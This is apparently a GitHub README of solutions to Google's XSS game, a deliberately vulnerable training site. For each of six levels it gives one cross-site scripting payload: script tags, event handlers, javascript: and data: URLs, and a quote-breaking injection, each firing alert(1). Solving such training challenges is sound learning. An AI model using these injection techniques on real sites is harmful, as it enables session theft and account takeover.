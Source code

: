 # xss-game
https://xss-game.appspot.com/

LEVEL 1
-------
```<script>alert(1)</script>```

LEVEL 2
-------
```<button onclick="javascript:alert(1)">Click me</button>```

LEVEL 3
-------
```https://xss-game.appspot.com/level3/frame#'><script>alert(1)</script>```

LEVEL 4
-------
```');alert('1```

LEVEL 5
-------
```https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)```

LEVEL 6
-------
```https://xss-game.appspot.com/level6/frame#data:text/plain,alert(1)```
